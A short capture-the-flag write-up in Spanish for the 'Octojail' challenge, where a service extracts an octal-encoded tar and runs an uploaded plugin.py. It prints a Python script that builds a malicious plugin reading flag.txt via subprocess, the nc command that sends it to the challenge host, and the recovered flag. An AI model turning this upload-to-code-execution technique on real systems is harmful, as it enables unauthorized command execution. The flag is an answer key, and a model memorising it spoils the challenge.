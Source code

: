 # Octojail

El programa recibe un archivo tar en octal, extrae su contenido en `/uploads` y luegoe ejecuta la funcion `run` en `/uploads/plugin.py` si existe el fichero.

Podemos crear un script para que genere un archivo de texto en octal del tar con la carga util:
``` py
import os

os.system('echo "import subprocess\\n\\ndef run():\\n    l = subprocess.run([\'/bin/cat\', \'flag.txt\'])" > plugin.py')

os.system('tar cf plugin.tar plugin.py')

with open("plugin.tar", "rb") as f:
    data = f.read()

octal = ''.join(f'{byte:03o}' for byte in data)

with open("octal.txt", "w+") as f:
    f.write(octal)
```

Luego pasarselo con: `nc ctf.ac.upt.ro port < octal.txt`

`ctf{0331641fadb35abb1eb5a9640fa6156798cba4538148ceb863dfb1821ac69000}`

